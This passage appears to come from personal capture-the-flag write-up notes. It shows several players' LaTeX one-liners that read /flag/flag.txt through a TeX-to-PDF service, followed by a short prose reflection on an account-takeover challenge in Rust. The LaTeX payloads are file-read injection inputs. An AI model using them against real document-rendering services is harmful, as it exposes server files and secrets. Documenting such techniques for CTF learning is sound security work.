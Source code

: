 ```
\pdfobj stream file {/flag/flag.txt}
\pdfrefobj 1
hallo
```
> "in both versions to directly embed the flag in the pdf as a raw stream, because that's apparently something people have a legitimate use-case for?"

by tomato6333
```
\ttfamily
\pdffiledump offset 0 length \pdffilesize{/flag/flag.txt}{/flag/flag.txt}
```
by vicevirus

`\begin{input}{/flag/flag.txt}` also works actually
by liekedaeler(Chal author)

Lastly, there is an official writeup by the challenge author at [[TeXnically_Insecure_author_writeup]]
## Secure sign on
#langs/rust
Account takeover from improper merging.
TODO: Basically, always trust your logs and check if something seems off: In this case, I incorrectly assumed user registration would happen instantly as the cat video note would be clicked immediately. However, the original db creation had never included such a note. Additionally, the logs showed there was a constant request to the notes page, and I had no clue why the requests to the notes page by the bot was still being made. Turns out, it was waiting for a cat video note to be posted(by the attacker). 